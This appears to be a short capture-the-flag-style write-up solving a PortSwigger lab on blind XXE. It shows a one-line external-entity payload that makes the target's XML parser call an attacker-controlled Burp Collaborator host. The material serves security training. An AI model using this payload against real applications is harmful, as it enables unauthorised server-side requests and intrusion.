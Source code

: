 # Lab: Blind XXE with out-of-band interaction

 This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

**Note**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

# Step 1 Walk the application

I find that the /product/stock page is using XML

![image](https://user-images.githubusercontent.com/83407557/210182922-b0ab9cb2-96f3-45f8-a061-6091d02b6c58.png)


# Step 2 create a payload

**Grabbing attack server URL**

![image](https://user-images.githubusercontent.com/83407557/210182949-dcf601df-1c0d-45a6-b582-7ff4feda15a7.png)

```
8v40jhc7oh8bgl8qqbah4b0m7dd41upj.oastify.com
```

**Making XXE payload**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://8v40jhc7oh8bgl8qqbah4b0m7dd41upj.oastify.com"> ]>
```

# Step 3 tesing defined entity 

![image](https://user-images.githubusercontent.com/83407557/210183002-4d64e6b4-142f-404a-9465-43192c2dd5a8.png)

# Step 4 Poll the collaborator server:

I see that I got a callback to my server with the payload

![image](https://user-images.githubusercontent.com/83407557/210183026-f3aa2a3d-6513-4559-aff4-35ee03202a23.png)

which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210183037-4a07cd33-f2eb-4927-9749-b55707f8a64e.png)
